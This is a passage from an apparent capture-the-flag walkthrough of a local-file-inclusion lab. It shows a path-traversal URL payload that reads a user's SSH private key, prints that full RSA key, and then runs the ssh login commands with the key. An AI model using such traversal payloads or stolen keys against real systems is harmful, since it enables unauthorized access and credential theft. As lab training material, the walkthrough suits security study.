4. What is the name of the user on the system?

`falcon`

5. Once you find the name of the user it's important to see if you can include anything **common** and **important** in that user's directory, could be anything like theirs **.bashrc** etc

`No answer needed`

6. Name of the file which can give you access to falcon's account on the system?

[10.10.109.9/home?page=../../home/falcon/.ssh/id_rsa](10.10.109.9/home?page=../../home/falcon/.ssh/id_rsa)

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAy5ab5+v0aBYFL7dN4O69CqvZdjpSk4/BFMOEndp71fy4qlBi
ewnTYIyKS1DjNhLdbLJZV/8oKOIx/BVSxrw3hnjL/b5d3jUpX1edcX8hjTt10LCT
ubgjWekIpspImHtp/vf9n0IlL1GIWLsxKZXEqyoSvvG4LU6ajrMyHM9jyZ7yMAsS
lHtfNzX22taxJliHF3SFDjf6Z0otY98T273qy6uTchBDEIZx7uJGQF4h9bvSq+22
e7QFY/h/cLrVUPGcRgv2VH4958A5n+BA48ioVyjGRcJlPsa8fNuFkgA8VlJqx/zD
Erf3G97zCY5iZSSm6g+9aUBAoqJqQqnZ1JY/jQIDAQABAoIBAQCjN3qEY7GM5OKB
j6Z7B0s9S+rKkxVywdQczmb6mpefRb3SpSFe3NC+3c1ddlrCFju4kf94wdIzfKxw
GbREKc8mGqAILN9abypdCoPp4u9GJ/5bMcUtJogI4/+QoCm1PXQL+ks1q7TeC7KQ
2HogibajNtbSiD2M7TCR6O3rFQU+NKW3P8R5rTJBFxSqXcoL0aZoOdIISuGo4e2D
w5p8eLHiYmKmQ3KYW58fau1Qnr8t0YoHDlG2wezNBQSckt5xxjY4XWlfcMPAQIP9
VWxv77zIqfLFYj6oH0opPHX7SbdpFVj00h7Ee2C0QR7CKj4lxmE2Dn97LEXksfWM
PqmJwiRBAoGBAPRGPZtAT7TfTac7lXbOYNj/5HuK1Pc7+GtsT8V3AJwbhkeZG/B+
ERee3gKlXhglEup0duxBwy5zTy6vsegMo7sk2ii/GlboR44Yy7OYbjrmIw7JRx6i
IIjN6YeKM+dwLGL7+xG2EavrRBJbuYfp1R139gK5CWd6Yu6xdwtCPS8xAoGBANVc
ZhSQOWzkN0Yq4CsAnKrrtIeynX7wTppy2F3N8/CQHQIYjFx0SZxs/1MlTXEpFdC+
VHhQ+Cy5O+hndqXiG5sty9wC67lZNaxuBkMoxKgX42JAgxxE41lUadAdRHJ4cq7A
1DiJ1xq3XwP1ZaUEVE/Y3EusMhtr/A6z1dGJcpcdAoGAdb6d14XqZb71iVS5OOlF
2ZOPKNXEzd+EYRN2aDJygszprv1ocEX0KzSSwye+8Vh9g7Hb2Qnh8TP3yQM7eCUP
jxe2aMmlAps4UpA1MD6bc5yW7Xur4mI32HmYxZKibj6txpC7dtASOJJQ36CDD7Zw
2aGHXcyfcdeWdIPqY+zr3SECgYEAoi4SCh93ByaSPWvp6cYVUHbKSzuiLBNOLGiP
vv4GJx3kbutqBfz+10Ci8/iu3Q11365NVwd1HcnPl+DNd1pf0Z0GEL7Hn6QIAIHB
kNs0YPGHje+ruZlDl2tq4x7cIIcd5Wf96Nwd/djVCJVIJh8cV3VoPr0teVqjxik8
poHr8KECgYBGJ/FLmaloEl00YECXAy2uMlvGyaAr2tsq28JF3LvZOXNIhB71+11V
E/gv9PP0ruJJRBv5r2DjAcsWA+sIBf5O8+z5dTeuto5v+WTrpOy8i3FLEWl3hqRH
ANCTI4EhCynYtF8zi8so5zeomlncFZg7JD/dL0gHXu4FImx5sUO9gg==
-----END RSA PRIVATE KEY-----
```

7. What is the user flag?

```
li@kali:~/CTFs/tryhackme/LFI$ chmod 600 id_rsa 
kali@kali:~/CTFs/tryhackme/LFI$ ssh -i id_rsa falcon@10.10.109.9
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Nov  7 19:27:05 IST 2020

  System load:  0.0               Processes:           84
  Usage of /:   30.7% of 9.78GB   Users logged in:     0
  Memory usage: 15%               IP address for eth0: 10.10.109.9
  Swap usage:   0%


6 packages can be updated.
3 updates are security updates.


Last login: Wed Jan 29 20:13:44 2020 from 192.168.1.107
```